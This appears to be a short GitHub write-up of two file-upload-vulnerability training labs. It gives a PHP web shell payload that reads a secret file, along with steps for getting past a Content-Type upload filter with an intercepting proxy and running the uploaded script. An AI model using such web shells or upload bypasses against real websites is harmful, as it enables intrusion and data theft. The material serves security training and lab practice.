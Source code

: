 # Lab-1: Remote code execution via web shell upload

```php

PAYLOAD: <?php echo file_get_contents('/home/carlos/secret'); ?>

```




![FILE-UPLOAD-VULNERABILITY-LAB-1-RCE-VIA-UPLOAD](https://user-images.githubusercontent.com/98345027/183827329-e98be45c-e763-4e30-85a1-565d42ba9df3.png)



# Lab-2: Web shell upload via Content-Type restriction bypass

```php
PAYLOAD: <?php echo file_get_contents('/home/carlos/secret'); ?>
STEPS
1.FIRST UPLOAD THE SCRIPT(EXAMPLE: SCRIPT.php) AND THEN GO TO PROXY-->HTTP HISTORY FROM THERE SELECT THE 'POST' REQUEST AND SEND IT TO REPEATER OVER THERE CHANGE THE "Content-Type" to "image/jpeg" inorder to bypass file type and then "send" the request .
2.IN THE "RESPONSE" SECTION IT SHOWS MESSAGE THAT THE FILE UPLOAD SUCCESSFULLY "
3.NOW TO RUN THE SCRIPT GO TO PROXY--->HTTP-HISTORY SELECT THE "GET" REQUEST AND ACCESS THE SCRIPT "/images/avtar/newsccript.php' and send the request
4.In "REPONSE SECTION " IT WILL SHOW THE SECRET MESSAGE "
```


![FILE-UPLOAD-VULNERABILITY-LAB-2](https://user-images.githubusercontent.com/98345027/183828255-7d93e239-5e5c-4515-a179-db7138a29a06.png)
![FILE-UPLOAD-VULNERABILITY-LAB-2-1](https://user-images.githubusercontent.com/98345027/183828268-a9c4bf5d-c944-4e9b-b3bd-68fae2cf184b.png)
